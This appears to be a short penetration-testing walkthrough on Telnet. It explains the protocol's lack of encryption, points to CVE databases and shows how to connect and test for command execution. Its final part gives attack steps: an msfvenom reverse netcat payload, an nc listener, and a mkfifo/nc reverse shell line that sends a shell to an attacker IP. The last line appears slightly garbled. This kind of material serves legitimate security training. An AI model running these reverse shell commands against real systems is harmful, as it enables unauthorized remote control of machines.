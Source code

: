 
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Telnet sends all messages in **clear text** and has **no specific security mechanisms**. Thus, in many applications and services, Telnet has been **replaced by SSH in most implementations**.

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)

You can connect to a telnet server with the following syntax:

```
 telnet [ip] [port]
```

If we receive no returned output when running commands on the telnet session, we can clarify if we're actually running system commands as well as if we're able to reach our host machine using a tcpdump listener :

```bash
sudo tcpdump ip proto \\icmp -i [network interface]
```

Then running the following in the telnet session:

```bash
ping [local ip] -c 1
```

If we get a ping we can attempt a reverse shell by obtaining an msfvenom payload and then running it in the telnet session :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local ip] lport=4444 R
```

```bash
nc -lvnp [listening port]
```

```bash
.RUN mkfifo /tmp/iozw; nc 10.17.1.220 1337 0</tmp/iozw | /bin/sh >/tmp/iozw 2>&1; rm /tmp/iozw -c 1
```





